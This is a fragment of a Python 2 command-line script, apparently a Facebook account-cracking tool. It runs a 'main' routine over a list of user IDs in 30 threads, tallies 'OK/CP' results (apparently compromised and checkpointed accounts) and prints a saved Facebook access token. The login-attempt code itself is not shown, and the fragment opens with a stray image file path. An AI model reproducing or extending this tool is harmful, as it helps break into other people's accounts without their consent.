 													
																
		except:
			pass
	
	p = ThreadPool(30)
	p.map(main,id)
	print(50*"-")
	print("\033[1;97m[!] \033[1;92mThe process has completed")
	print("\033[1;97m[!] \033[1;93mTotal OK/CP :"+str(len(oks)))+"/"+str(len(cps))
	raw_input("\033[1;97m[!]\033[1;91m Press enter to back")
	choose()
		    
def view_token():
    os.system("clear")
    print banner
    print("")
    os.system("cat .fb_token.txt")
    print("")
    raw_input(" \033[1;91mPress enter to main menu ")
    menu()
			
if __name__ == '__main__':
	user_info()

